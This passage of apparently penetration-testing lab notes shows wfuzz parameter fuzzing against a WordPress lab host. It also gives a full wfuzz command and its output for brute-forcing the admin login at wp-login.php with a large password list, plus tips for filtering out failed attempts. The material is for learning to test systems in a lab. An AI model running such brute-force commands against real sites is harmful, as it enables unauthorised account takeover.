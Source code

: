 ```bash

Target: http://offsecwp:80/index.php?fpv=FUZZ
Total requests: 828

=====================================================================
ID           Response   Lines    Word       Chars       Payload                         
=====================================================================
000000791:   200        0 L      1 W        12 Ch       "unix"                                   

Total time: 0
Processed Requests: 828
Filtered Requests: 827
Requests/sec.: 0
```

##### Fuzzing POST data

bruteforcing `admin password`
- where `-d` to specifically fuzz the POST data
- where  `--hc` with a value of 404 to avoid erroneous responses


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php         

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/wp-login.php
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000013:   200        105 L    478 W      7201 Ch     "abc123"
000000012:   200        105 L    478 W      7201 Ch     "baseball"
000000010:   200        105 L    478 W      7201 Ch     "dragon"
000000011:   200        105 L    478 W      7201 Ch     "123123"
000000016:   200        105 L    478 W      7201 Ch     "letmein"
000000003:   200        105 L    478 W      7201 Ch     "12345678"
000000014:   200        105 L    478 W      7201 Ch     "football"
000000001:   200        105 L    478 W      7201 Ch     "123456"
000000007:   200        105 L    478 W      7201 Ch     "1234"
000000015:   200        105 L    478 W      7201 Ch     "monkey"
000000009:   200        105 L    478 W      7201 Ch     "1234567"
000000005:   200        105 L    478 W      7201 Ch     "123456789"
000000006:   200        105 L    478 W      7201 Ch     "12345"
000000008:   200        105 L    478 W      7201 Ch     "111111" 
...
```
The above output shows that we receive several erroneous response sizes. Let's correct this by supplying the `--hh` parameter to suppress the response size value of `7201 bytes`, thus filtering our results so only successful attempts are shown in our output.
